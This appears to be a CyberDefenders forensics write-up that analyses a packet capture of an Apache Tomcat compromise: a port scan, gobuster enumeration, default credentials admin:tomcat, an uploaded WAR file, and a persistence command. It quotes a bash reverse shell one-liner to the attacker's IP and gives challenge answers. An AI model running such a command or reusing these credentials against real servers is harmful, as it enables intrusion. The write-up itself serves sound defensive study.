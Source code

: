 ```yaml
---
title: "[CD] Tomcat Takeover"
date: 2024-08-09
categories: [Writeups, CyberDefenders]
tags: [CyberDefenders, Writeup, Wireshark, PCAP]
---
```


Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

# Questions

**Q:** Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? <br />
**A:** 14.0.0.120 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q1-1.png" alt="Tomcat Takeover">

***

**Q:** Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? <br />
**A:** Guangzhou <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q2-1.png" alt="Tomcat Takeover">

***

**Q:** From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? <br />
**A:** 8080 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q3-1.png" alt="Tomcat Takeover">

***

**Q:** Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? <br />
**A:** gobuster <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q4-1.png" alt="Tomcat Takeover">

***

**Q:** Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? <br />
**A:** /manager <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q5-1.png" alt="Tomcat Takeover">

***

**Q:** Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? <br />
**A:** admin:tomcat <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q6-1.png" alt="Tomcat Takeover">

***

**Q:** Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? <br />
**A:** JXQOZY.war <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q7-1.png" alt="Tomcat Takeover">

***

**Q:** Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? <br />
**A:** /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1' <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-1.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-2.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-3.png" alt="Tomcat Takeover">

***
